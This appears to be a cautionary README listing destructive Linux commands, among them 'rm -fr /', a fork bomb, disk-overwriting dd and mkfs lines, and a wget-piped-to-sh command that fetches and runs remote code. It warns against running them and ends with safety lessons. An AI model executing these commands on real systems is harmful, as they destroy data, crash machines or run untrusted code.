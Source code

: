 Suicide Linux
============

*Simple list of deadly linux commands. All the Linux that nobody will teach you, but that you will experience in first person. At least one time in your life.*

## Warning!!
Most of the commands in this tutorial are **really dangerous**!!!
DO NOT use these commands on a real system if you have no idea of what you are going to do.


#### Delete Everything!

`rm -fr /`

With this command you asking to delete every files in your disk. Your only hope is that some security control will denied you to do something so silly.


#### Fork Bomb

`:(){ :|: & };:`

Elegant and deadly as a dark-lady. This short shell script replicates itself until all the processing capabilities of your computer will be occupied. Shutdown and restart seems to be the only solution.


#### Format the Drive

`mkfs.ext4 /dev/sda1`

Do you remember `FORMAT C:` of the old DOS? this have the same result.

#### Right Time, but Wrong Place

`date > /dev/sda`

Redirecting will write raw bytes on your disk partition. What can never will be? nothing good! surely.


#### Collect Junk is a Dirty Job

`dd if=/dev/random of=/dev/sda`


#### Have to start again

`mv ~ /dev/null`

This command will move all your personal data in the Linux equivalent of a Black Hole.


#### Stranger Danger

`wget http://example.com/something -O – | sh –`


#### You will be no more busy

`rm -f /usr/sbin/busybox`

## Lessons Learned
* execute commands with root privileges only if it is strictly necessary
* beware from `rm -r` commands
* never handle partions handles (such as `/dev/sda1`)
* never execute untrusted content


## References
* [How to Geek](http://www.howtogeek.com/125157/8-deadly-commands-you-should-never-run-on-linux/)
